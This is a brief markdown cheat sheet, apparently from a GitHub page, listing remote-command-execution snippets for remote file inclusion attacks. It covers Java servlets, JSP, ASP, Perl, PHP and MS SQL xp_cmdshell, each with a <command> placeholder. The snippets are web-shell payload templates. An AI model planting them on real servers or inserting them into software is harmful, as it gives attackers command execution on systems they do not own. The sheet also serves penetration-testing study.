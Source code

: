 ## RFI Cheetsheet

> This table provides a handy list of techniques that can be used for remote command execution, by language.

#### Java Servlet

- http://java.sun.com/j2se/1.4/docs/api/java/lang/Runtime.html

```java
class Example extends HTTPServlet {
  void function() {
    Runtime r = Runtime.getRuntime();
    Process p = r.exec("<command>", <arguments>);
  }
}
```

#### Java Server Pages (JSP)

- http://java.sun.com/j2se/1.4/docs/api/java/lang/Runtime.html

```java
<%
     Runtime r = Runtime.getRuntime();
     Process p = r.exec("<command>", <arguments>);
%>
```

#### Active Server Pages (ASP)

- http://msdn.microsoft.com/library/default.asp?url=/library/en-us/script56/html/wsMthRun.asp

If Windows Scripting Host is installed on the target system:

```asp
<%
     Set wsh = Server.CreateObject("Wscript.shell")
     wsh.run("<command>");
%>
```

#### PERL

In PERL, commands are executed by wrapping them with the backtick symbol (`)

- http://www.perldoc.com/perl5.6/pod/perlfunc.html

```perl
// examples
$result = `<command>`;
system("<command>");
open(IN, "<command> |");
```

#### PHP

- http://www.php.net/manual/en/function.shell-exec.php

```php
// examples
<? system("<command>") ?>
<? shell_exec("<command>") ?>
```

#### MS SQL

```sql
EXEC master..xp_cmdshell" <command>"
```
